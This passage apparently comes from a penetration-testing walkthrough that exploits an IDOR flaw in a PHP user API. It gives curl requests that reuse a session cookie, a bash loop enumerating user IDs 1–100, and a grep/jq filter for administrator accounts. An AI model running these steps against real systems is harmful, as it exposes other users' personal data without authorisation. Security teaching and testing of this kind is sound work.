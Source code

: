 #### Step 3: Test IDOR Vulnerability

**Manual IDOR Testing:**
```bash
# Test different user IDs
curl -H "Cookie: PHPSESSID=abc123..." "http://target.com/api.php/user/75"
curl -H "Cookie: PHPSESSID=abc123..." "http://target.com/api.php/user/1"
```

**Vulnerability Confirmed:** ✅ Returns data for other users without authorization

---

### Phase 2: User Enumeration & Admin Discovery

#### Step 4: Mass User Enumeration

**Automated Enumeration Script:**
```bash
#!/bin/bash
# user-enum.sh - IDOR user enumeration

echo "Enumerating users 1-100..."

for uid in {1..100}; do
    response=$(curl -s -H "Cookie: PHPSESSID=[SESSION]" \
        "http://target.com/api.php/user/$uid")
    
    if [[ $response == *"uid"* ]]; then
        echo "UID $uid: $response"
    fi
done
```

**Execution:**
```bash
chmod +x user-enum.sh
./user-enum.sh | tee users.txt
```

#### Step 5: Identify Administrative Users

**Search for Admin Privileges:**
```bash
# Filter for admin/administrator roles
cat users.txt | grep -i "admin" | jq .

# Expected output:
{
  "uid": "52",
  "username": "a.corrales", 
  "full_name": "Amor Corrales",
  "company": "Administrator"
}
```
